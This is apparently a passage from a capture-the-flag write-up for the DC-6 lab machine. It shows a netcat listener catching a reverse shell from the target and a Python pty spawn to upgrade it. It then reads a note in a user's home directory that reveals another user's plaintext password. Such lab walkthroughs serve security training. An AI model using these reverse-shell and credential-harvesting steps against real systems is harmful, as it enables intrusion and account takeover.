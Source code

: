 ![](/assets/images/dc6/screenshot-5.png)

We have obtained a shell with low privileges.

```console
root@kali:~$ nc -vlnp 443              
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.187] 38106
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@dc-6:/var/www/html/wp-admin$
```

Listing mark's home directory, graham's password was found in a note.

```console
www-data@dc-6:/home/mark$ ls
ls
stuff
www-data@dc-6:/home/mark$ cat stuff/things-to-do.txt
cat stuff/things-to-do.txt
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
www-data@dc-6:/home/mark$
```
